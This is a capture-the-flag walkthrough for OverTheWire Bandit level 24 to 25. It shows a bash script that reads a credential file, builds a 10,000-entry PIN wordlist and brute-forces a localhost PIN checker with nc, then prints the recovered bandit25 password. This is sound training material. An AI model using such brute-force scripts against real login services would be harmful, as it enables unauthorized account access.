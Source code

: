 ## Level 24 -> 25

In this level, we're brute forcing a 4-digit PIN checker listening on port 30002. If we enter the correct PIN, then the service will give us the password for `bandit25`. Let's give a random PIN to see what happens when we give it the wrong answer.

```
bandit24@bandit:~$ echo 1000 | nc 127.0.0.1 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
```

Now that we know a little bit more about the program, let's try doing it again with that error message in mind.

```
bandit24@bandit:~$ bandit24=$(cat /etc/bandit_pass/bandit24); echo $bandit24 1000 | nc 127.0.0.1 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
```

Now that we know how to send a PIN, let's create a script that will attempt every single possible 4-digit PIN and write the data to a log file. We'll make a script in a temporary directory.

```
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.A0szn8VVAZ$ touch script.sh; chmod +x script.sh
bandit24@bandit:/tmp/tmp.A0szn8VVAZ$ vim script.sh
```

One useful feature of Bash (and most POSIX shells) is that we can use for loops in conjunction with a range such as `{0000..9999}` to create a wordlist that we can bruteforce with.

```sh
#!/bin/bash

# This part creates a wordlist.
bandit24=$(cat /etc/bandit_pass/bandit24)
for pin in {0000..9999}; do
    echo "$bandit24 $pin" >> wordlist
done

# This part bruteforces the service with the wordlist and logs it.
cat wordlist | nc 127.0.0.1 30002 > bruteforce.log
```

Afterwards, we run the script and read the logs.

```
bandit24@bandit:/tmp/tmp.A0szn8VVAZ$ ./script.sh
bandit24@bandit:/tmp/tmp.A0szn8VVAZ$ cat bruteforce.log
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
-- snipped, a bunch more of these --
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```
